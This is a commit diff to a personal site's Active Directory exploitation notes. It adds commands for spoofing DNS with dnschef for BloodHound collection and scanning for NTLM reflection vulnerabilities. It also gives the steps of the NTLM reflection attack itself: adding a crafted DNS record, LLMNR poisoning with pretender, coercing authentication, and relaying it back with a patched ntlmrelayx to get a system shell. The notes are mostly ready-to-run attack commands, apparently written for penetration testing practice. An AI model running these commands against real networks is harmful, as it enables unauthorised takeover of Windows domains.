

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/ADExploitation.md, in a window 1280 px wide and 1400 px high, scrolled down 7904 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
updated notes

```diff
--- a/markdown/ADExploitation.md
+++ b/markdown/ADExploitation.md
@@ -124,6 +124,8 @@
       - run GUI with `bloodhound`
     - `pipx install bloodhound-ce` - installs latest `bloodhound-ce-python`
       - run collection with `bloodhound-ce-python -u {user} -p {password} (--hashes :{NT_HASH}) -d {domain} -c all --zip -op {out_prefix} -ns {dc_ns_ip}`
+        - This will require a nameserver to resolve the FQDN, but we can spoof this if the DC resolves IPs to internal IPs instead of externally
+        - `dnschef.py --fakeip {DC_IP}` and then just use `-ns 127.0.0.1`
   - Legacy version (for kali default):
     - `nxc ldap {dc} -u {username} -p {password} --bloodhound --collection All --dns-server {dns_server_ip}`
     - `pipx install bloodhound`
@@ -315,10 +317,16 @@
 - Detailed in [this blog post](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025)
   - Essentially, we can use a DNS record of `localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` to convince the server it's performing NTLM local authentication, when it's really authenticating to us
   - We can then relay that authentication right back to the server (NTLM reflection), giving us a system shell (since it's originating from lsass)
+- Scanning:
+  - We can use Depth Security's tool, [RelayKing-Depth](https://github.com/depthsecurity/RelayKing-Depth), to scan for the vuln
+    - `git clone https://github.com/depthsecurity/RelayKing-Depth.git; cd RelayKing-Depth; python3 -m venv venv; source ./venv/bin/activate; pip3 install -r requirements.txt`
+    - `python3 relayking.py -u {username} -p {password} -d {domain} --dc-ip {dc_IP} --audit --protocols smb,ldap,ldaps,mssql,http,https --threads 10 -o plaintext,json --output-file relayking-scan --proto-portscan --ntlmv1 --gen-relay-list relaytargets.txt`
+  - Uses Query UBR (Update Build Revision) from DCERPC to determine if the host is patched, among checking for a bunch of other stuff
 - Exploitation:
   - We first need the server to think that our IP is `localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA`
-    - Best option is to add a dns record, using `dnstool.py`, since domain users can do this by default: `dnstool.py -u '{domain}\{user}' -p '{pass}' {target_IP} -a add -r "localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" -d '{kali_IP}`
-    - If LLMNR/MDNS poisoning is possible: `pretender -i "{network_interface}" --spoof "localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" --no-dhcp-dns --no-timestamps`
+    - Best option is to add a dns record, using [`dnstool.py`](https://github.com/dirkjanm/krbrelayx.git), since domain users can do this by default: `dnstool.py -u '{domain}\{user}' -p '{pass}' {target_IP} -a add -r "localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" -d '{kali_IP}`
+    - If LLMNR/MDNS poisoning is possible, use [pretender](https://github.com/RedTeamPentesting/pretender.git)
+      - `pretender -i "{network_interface}" --spoof "localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" --no-dhcp-dns --no-timestamps`
   - We then need to convince the server to authenticate to the DNS record, with something like coercer or petitpotam
     - `coercer coerce -t {IP} -l localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -u {domain_user} -p {password} -d {domain}`
   - We then relay the authentication back to the server
@@ -329,6 +337,8 @@
   - This is possible because NTLM local authentication doesn't populate the NTLM3 message or use MIC validations (as it should all technically be within the same process), so the SIGN/SEAL headers can be dropped
     - Described in [this blog post](https://www.depthsecurity.com/blog/using-ntlm-reflection-to-own-active-directory/)
   - `logansdiomedi` has a [fork of ntlmrelayx](https://github.com/logansdiomedi/impacket-reflection/tree/add-remove-mic-partial) which can drop this data for reflection attacks
+    - `git clone https://github.com/logansdiomedi/impacket-reflection.git` and `git checkout add-remove-mic-partial`
+      - Might also need to create venv and `pip install -e .`
     - `python3 ntlmrelayx.py -t ldaps://{IP} --no-multirelay -smb2support -i --remove-mic-partial --keep-relaying`
 
 ## Getting execution with credentials or hashes
```
Also changed, not shown: markdown/RedTeamingCCDC.md (+4 -4 lines), 1 other file.
